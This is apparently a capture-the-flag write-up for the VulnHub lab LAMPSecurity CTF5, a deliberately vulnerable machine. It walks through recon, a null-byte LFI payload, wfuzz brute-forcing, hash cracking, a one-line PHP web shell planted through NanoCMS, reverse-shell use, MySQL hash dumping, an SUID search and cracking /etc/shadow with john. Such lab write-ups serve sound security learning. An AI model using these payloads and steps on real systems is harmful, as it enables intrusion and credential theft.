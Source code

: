 LAMPSecurity: CTF5

[Machine](https://www.vulnhub.com/entry/lampsecurity-ctf5,84/ "https://www.vulnhub.com/entry/lampsecurity-ctf5,84/")

## Reconnaissance

### nmap

* ssh
* smtp
* 80 - httpd
* pop3
* rpcbind
* 139, 445 - netbios 
* imap
* 901 - http Samba Admin Server
* mysql
* 40050 - unknown

### Vulnerable versions

* [ ] ssh
* [ ] smtp
* [ ] 80 httpd
  ??? pop3
* [ ] rpcbind
* [ ] netbios
  ??? imap
  ??? 901
* [ ] mysql
  ??? 40050

### smtp

```bash
nc -vn 192.168.88.220 25
HELO x
MAIL FROM:test@test.com
RCPT TO:root
```
Cause nmap `smtp-enum-users` script didn't work.

### http 80

#### main page

Nothing.

#### Blog

* Nano CMS.
* Admin login.
* user: andy

#### /mail

* SquirrelMail version 1.4.11-1.fc8.
* Login form.

#### Contacts

* Form.

#### Events

* Login form.
* users: patrick, jennifer

#### dirb

* nothing interesting.

#### nikto

* phpMyAdmin 3.1.4

#### /events/robots.txt

A lot of URLs.

### pop3

With `pop3-capabilities` nmap script:
* pop3-capabilities: UIDL USER LOGIN-DELAY(180) STLS TOP

### smb

With `smbmap`:
* home
* IPC$
* Samba Server Version 3.0.26a-6.fc8.
* no access.
* nmap gave a [result](enum/smb/enum.nmap)

My attemts with `smbclient --no-pass //192.168.88.220/` or `smbclient -N -L //192.168.88.220/` were useless.

## Thread modeling

1. Search public exploits on new-found services.

2. Search for File Inclusion.

3. Attempt to inject SQL code.

4. brute-force ssh with hydra based on the found users.

## Vulnerabilities analysis

1. Didn't find useful cve...But I searched again and found it! NanoCMS has a [vulnerability](https://www.securityfocus.com/bid/34508/exploit "https://www.securityfocus.com/bid/34508/exploit").

2. Found LFI at `/index.php?page=../../../../../../etc/passwd%00`.

3. `/list` has a response with an error on `' test`.

4. Nothing.

## Exploitation

### LFI

I wanted to use wfuzz and brute-force all useful files:
```bash
wfuzz -c -w /usr/share/wordlists/lfi_linux.txt --hs "Warning" http://192.168.88.220/index.php?page=../../../../../../FUZZ%00 > wfuzz.txt
```

Brute-force `.ssh` and `id_rsa` key, but nothing:
```
wfuzz -c -w ../enum/creds/users.txt --hs "Warning" http://192.168.88.220/index.php?page=../../../../../../home/FUZZ/.ssh/id_rsa%00 > ssh_keys.txt 
```

I tried all cases and files...OKAY, I can't exploit it. Too heavy. You can find an exploit on this case with usage of `phpinfo.php`, but I'll try it later...

### Use /~andy/data/pagesdata.txt

Found hash of the password. Crack with [this](https://crackstation.net/ "https://crackstation.net/").
admin: shannon

Next step - try to get RCE.

#### RCE & reverse shell

Go to `New page` and create a file with content:
```php
<?php system($_GET['cmd']); ?>
```

Then, you'll try to get a reverse shell with bash or netcat, but nothing. So, all you have to do is search for php-reverse-shell, then paste the content within `New page` form and change host and port. Next, just go to the link.
Also, I watched a few directories through RCE, but I didn't find anything useful, Better get a shell and then see what you got. And you can use that shell with LFI. Create another shell, via RCE see the path to the shell. Next, type something like that `http://192.168.88.220/index.php?page=../../../../../../home/andy/public_html/data/pages/reverseshell` and you'll get a shell. But it's useless cause you can do it without LFI, but it is a proof of concept that you could exploit it in some way...

## Post exploitation 

### /var/www/html

After you got access to the target, you can see the `/var/www/html`. In which, you have to find `/list/`. I found it before, but don't do something with it. So, In file `index.php`, you'll see the password `mysqlpassword`. Log in to the phpmyadmin. Use a drupal table and select the users table, in which you'll see the hashes. Export them as csv file. Next, to extract hashes from csv:`cat users.csv | cut -f3 -d';' | tr -d '\"' > mysql_hashes`.

#### Crack the hash

[Crack with this.](https://crackstation.net/ "https://crackstation.net/")

Now, you know the password for patrick, amy, loren. Then, go to `/events/` and now you can log in to the Event Manager, but it gives you nothing.

### Privilege escalation

I just went through all the users home directories and user patrick has a dir `.tomboy`. I searched about it. So, it is a note-taking GUI application. Within the directory were files with strange names, I just did `cat *` and found the password for the root user: `50$cent`. Nice. Got root.

### GTFObins

```bash
for i in `find / -perm -4000 -type f 2>/dev/null`; do echo `ls -la $i`; done
```
To list all root suid files. But seems it is not vulnerable.

### Crack the /etc/shadow

```bash
john -w=/usr/share/wordlists/rockyou.txt shadow
```

### linpeas.sh

Ran the linpeas.sh script, but it gave nothing useful.

